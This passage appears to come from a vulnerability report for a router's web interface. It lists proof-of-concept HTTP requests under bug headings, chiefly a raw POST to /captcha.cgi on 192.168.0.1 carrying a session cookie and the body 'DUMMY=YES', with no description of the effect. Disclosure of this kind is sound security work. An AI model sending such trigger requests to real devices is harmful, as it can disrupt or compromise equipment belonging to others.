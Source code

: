 ```http
Accept-Language: en-US,en;q=0.9

Connection: close
```



#### bug3

```http
POST /captcha.cgi HTTP/1.1

Host: 192.168.0.1

Cookie: uid=xrU7UqR6kP

Content-Length: 9

Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"

Sec-Ch-Ua-Platform: "Linux"

Sec-Ch-Ua-Mobile: ?0

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36

Content-Type: application/x-www-form-urlencoded

Accept: */*

Origin: https://192.168.0.1

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: cors

Sec-Fetch-Dest: empty

Referer: https://192.168.0.1/info/Login.html

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close



DUMMY=YES
```

#### bug4

